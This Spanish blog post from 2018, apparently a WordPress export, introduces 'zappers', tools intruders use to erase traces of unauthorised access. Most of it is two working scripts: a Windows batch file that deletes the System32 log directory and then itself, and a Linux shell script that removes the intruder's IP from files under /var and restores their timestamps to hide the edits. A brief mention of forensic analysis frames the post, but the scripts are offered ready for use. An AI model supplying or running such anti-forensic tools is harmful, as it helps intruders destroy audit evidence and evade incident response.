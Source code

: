 ```yaml
---
id: 42
title: 'Ocultando Huellas: Zappers'
date: 2018-09-05T08:00:29+00:00
author: Oscar
layout: post
guid: http://144.217.6.251/?p=42
permalink: /index.php/2018/09/05/ocultando-huellas-zappers/
categories:
  - Otros
---
```

<p style="text-align: justify;">
  Mucho se habla en internet sobre el como ingresar a un sistema de manera &#8220;no autorizada&#8221;, hay cientos de guías que te detallan paso a paso como explotar ciertas vulnerabilidades del algun producto o tecnología hasta entrar al sistema, pero ¿que hay una vez que entras?, ¿que hay sobre todos los rastros y huellas que vas dejando al momento de entrar?, ¿donde quedan esos registros?, etc.
</p>

<h3 style="text-align: justify;">
  ¿Qué son los Zappers?
</h3>

<p style="text-align: justify;">
  Los Zappers son herramientas automatizadas para el borrado de huellas en algún sistema, existen zappers para los principales sistemas operativos, en su mayoria scripts que el usuario puede customizar según sus necesidades.
</p>

<p style="text-align: justify;">
  Para entender donde buscar si te toca hacer un analisis forense de algún incidente de seguridad es muy importante conocer todos estos lugares donde quedan regisros de acceso o de intentos de acceso, registros de comandos ejecutados, registros de eventos, de url consultadas, memorias caches del sistema, archivos temporales, etc.
</p>

### Ejemplos de algunos Zappers:

**Windows**:

Zapper sencillo en BAT:

<pre class="brush: plain">@echo off
rd /s /q %systemroot%\Windows\System32\LogFiles
md %systemroot%\Windows\System32\LogFiles
del /f /q %0
exit</pre>

Fuente: <http://underc0deblog.blogspot.cl/2014/03/zapper-para-windows-batch.html>

Winzapper:  
<img class="alignnone  wp-image-322" src="http://163.250.212.113/wp-content/uploads/2018/09/winzap.png" alt="winzap" width="285" height="234" srcset="http://163.250.212.113/wp-content/uploads/2018/09/winzap.png 398w, http://163.250.212.113/wp-content/uploads/2018/09/winzap-300x246.png 300w" sizes="(max-width: 285px) 100vw, 285px" />  
Fuente: <http://ntsecurity.nu/toolbox/winzapper/>

**Linux**:

<pre class="brush: plain">#!/bin/sh
#
############################################################################
# "adk.sh v0.1" hecho por el ..sR. aDiKtO.. &lt;adikto@elhacker.net&gt;
#
# Este script borra todas las lineas de todos los archivos
# que esten en /var que contengan tu ip, conservando la fecha
# de antes de la modificacion .
#
# Este script se distribuye segun la licencia GPL v.2 o posteriores y
# no tiene garantias de ningun tipo. Puede obtener una copia de la
# licencia GPL o ponerse en contacto con la Free Software
# Foundation en http://www.gnu.org
############################################################################
#
# Variable que contiene tu ip
IP="127.0.0.1"
############################################################################
# Funcion encargada de limpiar todos los logs
############################################################################
function main()
{
mkdir -p /tmp/.adk &&gt;/dev/null
for i in `find /var 2&gt;/dev/null`
do
  linea=$(cat $i 2&gt;/dev/null | grep $IP )
  if [ "$linea" != "" ]
  then
      ls -l $i &gt; /tmp/.adk/fecha 2&gt;/dev/null
      aux=$(awk '{ print $6 $7 }' /tmp/.adk/fecha 2&gt;/dev/null)
      TIEMPO=$(echo $aux | tr "-:" "\000" 2&gt;/dev/null)
      sed "/$IP/d" $i &gt; /tmp/.adk/datos 2&gt;/dev/null
      cat /tmp/.adk/datos &gt; $i 2&gt;/dev/null
      touch -t $TIEMPO $i 2&gt;/dev/null
      echo -e "IP limpiada del archivo $i"
  fi
done
rm -rf /tmp/.adk &&gt;/dev/null
}
############################################################################
#Funcion principal
############################################################################
clear
echo -e "\n    \033[40m\033[1;37m  adk.sh v0.1  \033[0m\n"
if [ $GROUPS != 0 ]
then
  echo -e "ERROR: Necesitas tener privilegios de root para poder ejecutar este script"
  exit
fi
echo -e "\n Empecemos a borrar tu ip de los log de este sistema.\n"
main
echo -e "\n Ordenador Limpiado Completamente"
</pre>

Fuente: [https://foro.elhacker.net/hacking\_basico/un\_buen_zapper-t26710.0.html](https://foro.elhacker.net/hacking_basico/un_buen_zapper-t26710.0.html)